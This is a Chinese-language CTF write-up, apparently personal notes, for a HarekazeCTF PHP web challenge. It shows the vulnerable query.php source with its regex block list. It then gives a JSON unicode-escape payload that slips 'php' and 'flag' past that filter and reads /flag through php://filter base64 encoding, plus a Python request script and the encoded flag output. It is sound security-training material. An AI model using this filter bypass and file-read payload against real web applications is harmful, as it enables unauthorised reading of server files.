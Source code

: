 这队名...船员跑来CTF暴打萌新了QwQ

![[Pasted image 20230118105015.png|500]]

强迫症当场去世.jpg

![[Pasted image 20230118105045.png|500]]

---

```
/#pages/about.html
```

![[Pasted image 20230118105213.png|300]]

```
/#pages/lorem.html
```

![[Pasted image 20230118105340.png|1000]]

```
/query.php?source
```

```php
 <?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]); 
```

通过`php://input`读取`POST`的`JSON`字符串，取`page`属性传给`file_get_contents`，再编码成`JSON`返回

通过`php://filter`进行`base64`编码绕过对`HarekazeCTF`格式的过滤，但这样会被`is_valid`过滤

不过既然`JSON`的字符串值套在双引号里面，大抵是能转义的罢👀

```json
{
    "page": "\u0070\u0068\u0070://filter/read=convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"
}
```

```python
import requests
url = 'http://xxx.node4.buuoj.cn:81/query.php'
data = b'{"page": "\u0070\u0068\u0070://filter/read=convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"}'
print(requests.post(url, data=data).content)
```

```json
{
    "content":"ZmxhZ3swNDJlYTk0My0yMmZkLTQ3NzEtODJmOS0xOGQwYzA1OGMxNDh9Cg=="
}
```

![[Pasted image 20230118113034.png|500]]

#Web #PHP #json #encoding #伪协议 